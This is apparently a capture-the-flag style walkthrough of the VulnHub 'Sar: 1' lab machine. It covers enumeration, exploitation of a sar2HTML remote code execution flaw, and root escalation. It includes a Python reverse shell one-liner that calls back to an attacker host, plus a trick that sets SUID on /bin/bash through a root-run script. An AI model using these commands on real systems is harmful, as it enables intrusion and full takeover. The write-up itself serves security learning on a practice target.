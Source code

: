 # Information

- Name: Sar: 1
- Date Release: 15 Feb 2020
- Author: Love
- Series: Sar
- Link: https://www.vulnhub.com/entry/sar-1,425/
- Difficulty: Easy

# Write Up
## Enumeration
### Host Discovery 
Host Discovery is performed using [arpScan](https://github.com/Tools) with fast mode. In this case the ip's machine is 10.0.2.12.

```Console
# python arpScan.py -m 2 -r 10.0.2.0/24
[*] 52:54:00:12:35:00 10.0.2.1
[*] 52:54:00:12:35:00 10.0.2.2
[*] 08:00:27:80:b6:4c 10.0.2.3
[*] 08:00:27:f9:32:fa 10.0.2.12
```

### Port Scanning
Port Scanning is realized with [portScan](https://github.com/aalmeidar/Tools).The tool report that there is only one open port (80).

```Console
# python portScanr.py -i 10.0.2.12
[*] Port 80 (http) open
```

## Web 

With _whatweb_ you can enum the versions running on the web server. Nothing interesting, an Apache 2.4.29 and Ubuntu.

```Console
# whatweb http://10.0.2.12
http://10.0.2.12 [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.0.2.12], Title[Apache2 Ubuntu Default Page: It works]
```
The _index.html_ is the default page of Apache.
![Apache](images/apache.png)

Let's try fuzzing with gobuster to discover directories and files.

```Console
# gobuster dir -w /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -t 40 -u http://10.0.2.12
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.0.2.12
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/wordlist/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
2022/09/01 18:07:17 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/robots.txt           (Status: 200) [Size: 9]
/phpinfo.php          (Status: 200) [Size: 95357]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/09/01 18:09:00 Finished
===============================================================
```

In _robots.txt_ you can see "sar2HTML", if add it to the url you are going to see another page.
![robots](images/robots.png)
![Sar2HTML](images/sar2html.png)

## Exploitation

Sar2HTML is a plotting tools for system stats. The version running is 3.2.1, that is vulnerable to [RCE](https://www.exploit-db.com/exploits/47204). Lets try get a reverse shell via RCE with the reverse shell:

```Python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.7",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

![rce](images/rce.png)

## Privilege Escalation

Lets monitorize the machine with pspy. You can see that in /var/www/html/ there are two scripts executing: _write.sh_ and _finally.sh_

```Console
bash-4.4$ cat finally.sh write.sh
#!/bin/sh

./write.sh

#!/bin/sh

touch /tmp/gateway
```
The _finally.sh_ is executing _write.sh_ by root. You can assign SUID perm to /bin/bash to be root.

```Console
bash-4.4$ echo "chmod u+s /bin/bash" >> write.sh
bash-4.4$ cat write.sh
#!/bin/sh

touch /tmp/gateway
chmod u+s /bin/bash
bash-4.4$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1113504 Jun  7  2019 /bin/bash
bash-4.4$ bash -p
bash-4.4# whoami
root
bash-4.4# cat /root/root.txt /home/love/Desktop/user.txt
66f93d6b2ca96c9ad78a8a9ba0008e99
427a7e47deb4a8649c7cab38df232b52
```


